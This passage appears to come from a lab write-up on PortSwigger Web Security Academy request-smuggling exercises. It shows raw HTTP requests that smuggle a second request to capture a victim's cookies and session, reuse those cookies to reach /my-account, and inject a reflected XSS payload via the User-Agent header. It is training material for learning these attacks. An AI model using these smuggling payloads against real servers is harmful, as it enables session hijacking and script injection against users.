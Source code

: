 ```http
POST /post/comment HTTP/1.1
Host: 0a560094034333f3c0a51a2c00dd0027.web-security-academy.net
Content-Length: 315
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

0

POST /post/comment HTTP/1.1
Host: 0a560094034333f3c0a51a2c00dd0027.web-security-academy.net
Content-Length: 806
Cookie: session=IyDgegJn5pvpxeO7vkMC1Iydonlav5jb
Content-Type: application/x-www-form-urlencoded

csrf=4Aj33NnmRAndszvq5fEyTFBl9azQCxef&postId=3&name=name&email=email@d.d&website=&comment=leak
```

```
leakGET / HTTP/1.1 Host: 0a560094034333f3c0a51a2c00dd0027.web-security-academy.net Connection: keep-alive Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.79 Safari/537.36 Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate, br Accept-Language: en-US Cookie: victim-fingerprint=zaSVR3HxS6nNgzvQkfktkk4dIrca0LI7; secret=YR3JdIRPEfOt8RibS8hhfRQphpxLFzeH; session=0ANQ8MLDM5n54ah26iXuhxKNERfTGtr3
```

```http
GET /my-account HTTP/1.1
Host: 0a560094034333f3c0a51a2c00dd0027.web-security-academy.net
Cookie: victim-fingerprint=zaSVR3HxS6nNgzvQkfktkk4dIrca0LI7; secret=YR3JdIRPEfOt8RibS8hhfRQphpxLFzeH; session=0ANQ8MLDM5n54ah26iXuhxKNERfTGtr3
```

### Set headers on victim request to get XSS

{% embed url="https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss" %}
Portswigger **lab** for changing the request from a victim to return XSS
{% endembed %}

```http
POST /post/comment HTTP/1.1
Host: 0a2b004204969863c0e7238600e70055.web-security-academy.net
Content-Length: 79
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
User-Agent: "><script>alert(1)</script>
X: X
```
